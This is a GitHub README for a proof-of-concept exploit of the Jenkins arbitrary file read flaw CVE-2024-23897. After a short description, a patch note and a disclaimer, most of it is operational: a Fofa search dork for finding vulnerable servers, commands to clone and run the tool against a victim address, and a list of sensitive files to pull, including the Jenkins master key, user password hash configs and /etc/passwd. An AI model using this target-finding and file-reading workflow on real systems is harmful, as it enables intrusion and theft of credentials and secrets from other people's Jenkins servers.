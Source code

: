 # Jenkins File Read Vulnerability - CVE-2024-23897

[![My Shop](https://img.shields.io/badge/My%20Shop-verylazytech-%23FFDD00?style=flat&logo=buy-me-a-coffee&logoColor=yellow)](https://buymeacoffee.com/verylazytech/extras)
[![Medium](https://img.shields.io/badge/Medium-%40verylazytech-%231572B6?style=flat&logo=medium&logoColor=white)](https://medium.com/@verylazytech)
[![Github](https://img.shields.io/badge/Github-verylazytech-%23181717?style=flat&logo=github&logoColor=white)](https://github.com/verylazytech)
[![Buy Me A Coffee](https://img.shields.io/badge/Buy%20Me%20A%20Coffee-verylazytech-%23FFDD00?style=flat&logo=buy-me-a-coffee&logoColor=yellow)](https://buymeacoffee.com/verylazytech)


CVE-2024-23897 is a critical vulnerability in Jenkins that allows unauthenticated attackers to read arbitrary files on the Jenkins controller's file system. This flaw arises from improper handling of command arguments in the args4j library, specifically in command-line operations where an @ character followed by a file path can lead to unauthorized file content exposure.

This vulnerability poses a significant risk as it can enable attackers to access sensitive information, such as cryptographic keys and configuration files, which may be leveraged for further exploitation, including remote code execution (RCE). The issue is particularly alarming given the widespread use of Jenkins in CI/CD pipelines and the number of exposed Jenkins instances globally.

A security fix addressing this vulnerability has been released in Jenkins versions 2.442 and later, as well as Jenkins LTS version 2.426.3 and later. Users are strongly advised to upgrade their Jenkins installations to mitigate this risk and protect sensitive information.

**Read about it** — [CVE-2024-23897](https://nvd.nist.gov/vuln/detail/CVE-2024-23897)

> **Disclaimer**: This Proof of Concept (POC) is made for educational and ethical testing purposes only. Usage of this tool for attacking targets without prior mutual consent is illegal. It is the end user’s responsibility to obey all applicable local, state, and federal laws. Developers assume no liability and are not responsible for any misuse or damage caused by this program.

## Getting Started

### Finding Targets

To find potential targets, use Fofa (similar to Shodan.io):

- **Fofa Dork**: header="X-Jenkins: 2.426.2"

Affected Jenkins versions include up to 2.441 and up to 2.426.2 for Jenkins LTS.

Clone the repository:

```bash
git clone https://github.com/verylazytech/CVE-2024-23897
```

Run the Exploit:

```bash
python3 CVE-2024-23897.py -u <Victim_ip:port>
```
![Alt text](Run.png)

Enter the file that you want to read into the shell (this case /etc/passwd):
![Alt text](fileread.png)


Some files that could be of interest:
 - `/proc/self/environ` Environmental variables including `JENKINS_HOME`
 - `/proc/self/cmdline` Command-line arguments
 - `/var/jenkins_home/users/users.xml` User account storage locations
 - `/var/jenkins_home/users/<user_directory>/config.xml` User BCrypt password hash
 - `/var/jenkins_home/secrets/master.key` Encryption secret key
 - `/etc/hosts` Linux local-DNS resolution
 - `/etc/passwd` Linux user accounts


## Genreal Usage:

```text
usage: python3 CVE-2024-23897.py [-h] -u URL [-f FILE] [-t TIMEOUT] [-s] [-o] [-p PROXY] [-v]

options:
  -h, --help            show this help message and exit
  -u URL, --url URL     Jenkins URL
  -f FILE, --file FILE  File path to read
  -t TIMEOUT, --timeout TIMEOUT
                        Request timeout
  -s, --save            Save file contents
  -o, --overwrite       Overwrite existing files
  -p PROXY, --proxy PROXY
                        HTTP(s) proxy to use when sending requests (i.e. -p http://127.0.0.1:8080)
  -v, --verbose         Verbosity enabled - additional output flag
```
